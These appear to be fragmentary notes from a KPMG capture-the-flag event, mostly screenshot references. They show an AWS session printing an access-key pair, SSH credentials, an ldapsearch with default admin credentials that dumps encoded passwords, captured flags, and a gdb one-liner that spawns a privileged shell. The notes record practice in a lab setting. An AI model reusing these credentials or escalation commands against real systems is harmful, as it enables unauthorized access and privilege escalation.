 

## I am Weak

decode the jwt token of the guest user with hashcat

![[Screenshot from 2024-08-09 15-48-47.png]]

![[Screenshot from 2024-08-09 15-48-17.png]]

![[Screenshot from 2024-08-09 15-48-01.png]]


## Data Vault Duel

![[Screenshot from 2024-08-09 18-29-41.png]]

## Credentials Everywhere

![[Screenshot from 2024-08-09 18-25-46.png]]


~~~
AKIAV4FCIFFG26E54KOC@5067448801e1:~/.aws$ aws s3 cp  s3://kpmg-ctf2/CTF_accessKeys.csv .
download: s3://kpmg-ctf2/CTF_accessKeys.csv to ./CTF_accessKeys.csv
AKIAV4FCIFFG26E54KOC@5067448801e1:~/.aws$ ls
CTF_accessKeys.csv  credentials  rituognriteuonhbiorentgbvhuitrhoirtsnbiuort.txt
AKIAV4FCIFFG26E54KOC@5067448801e1:~/.aws$ cat CTF_accessKeys.csv 
Access key ID,Secret access key
AKIAV4FCIFFGYXKX34Z2,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
AKIAV4FCIFFG26E54KOC@5067448801e1:~/.aws$ 
~~~


~~~
SSH Username: AKIAV4FCIFFG26E54KOC
SSH Password: MyVerySecureCloud123!
~~~

## Hacking the Admins



![[Screenshot from 2024-08-09 18-36-07.png]]


![[Pasted image 20240809185542.png]]


![[Screenshot from 2024-08-09 18-49-15.png]]

![[Pasted image 20240809185640.png]]

![[Screenshot from 2024-08-09 18-51-03.png]]


![[Pasted image 20240809185653.png]]

## Modulus Bus Station



![[Pasted image 20240809212648.png]]


![[Screenshot from 2024-08-09 21-26-20.png]]


~~~
KPMG_CTF{GxPrFeA5hB3kQ_KMrxOO8pK0aReXUQhPfnHu5rgFPkNmZ7wULxaCC7N39sQ-H0mwE8t1gkAIHb5CUlmDa5WoWK5JdCJccaK9SviI-Lsk}
~~~


~~~
ldapsearch -x -H ldap://0.cloud.chals.io:24591 -D "cn=admin,dc=cybercorp,dc=com" -w 'admin' -b "dc=cybercorp,dc=com"
~~~


~~~

# extended LDIF
#
# LDAPv3
# base <dc=cybercorp,dc=com> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# cybercorp.com
dn: dc=cybercorp,dc=com
objectClass: top
objectClass: dcObject
objectClass: organization
o: Cybercorp Inc.
dc: cybercorp

# users, cybercorp.com
dn: ou=users,dc=cybercorp,dc=com
objectClass: organizationalUnit
ou: users

# admin, cybercorp.com
dn: cn=admin,dc=cybercorp,dc=com
objectClass: inetOrgPerson
cn: admin
sn: Admin
userPassword:: YWRtaW4=
description: LDAP administrator

# John Doe, users, cybercorp.com
dn: cn=John Doe,ou=users,dc=cybercorp,dc=com
objectClass: inetOrgPerson
cn: John Doe
sn: Doe
uid: jdoe
userPassword:: S1BNR19JU19UT09fQ09PTEBGSVJFX0VNT0pJ
description: Here is your user flag: KPMG_CTF{6D5L5BYyJ6fV4CNZFC__cOA6mqAm46bJ
 weEFZiuM5o_p9-7xO7oKTswRI8bBN9rhSG6ZbHogH5CHTZPQ1GaCy0zqgM2FV5XzpOK_8-Oy} KPM
 G_IS_TOO_COOL@FIRE_EMOJI

# search result
search: 2
result: 0 Success

# numResponses: 5
# numEntries: 4

~~~


~~~
gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
~~~




